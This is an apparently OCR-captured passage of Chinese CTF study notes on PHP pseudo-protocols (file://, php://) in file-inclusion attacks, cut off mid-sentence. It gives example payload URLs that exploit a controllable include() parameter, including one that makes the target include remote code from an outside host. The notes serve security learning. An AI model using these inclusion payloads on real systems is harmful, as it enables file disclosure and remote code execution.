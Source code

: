|phar://|PHP归档|

...

  

### 伪协议

  

>file://

  

#### 条件：

- `allow_url_fopen`:off/on

- `allow_url_include`:off/on

  

#### 作用

用于访问本地文件系统。include()/require()/include_once()/require_once()参数可控的情况下，如导入为非.php文件，则仍按照php语法进行解析，这是include()函数所决定的。

  

#### usage

- 绝对路径

`http://xxx/include.php?file=file://C:\WWW\test\1.txt`

  

- 相对路径

`http://xxx/include.php?file=./2.txt`

  

- 网络路径

`http://xxx/include.php?file=http://yyy/3.txt`

  
  

>php://

  

#### 条件：

- `allow_url_fopen`:off/on

- `allow_url_include`:仅php://input, php://stdin, php://memory, php://temp需要on

  

#### 作用

- `php://` 访问各个输入/输出流（I/O streams）

  - 在CTF中经常使用的是`php://filter`和
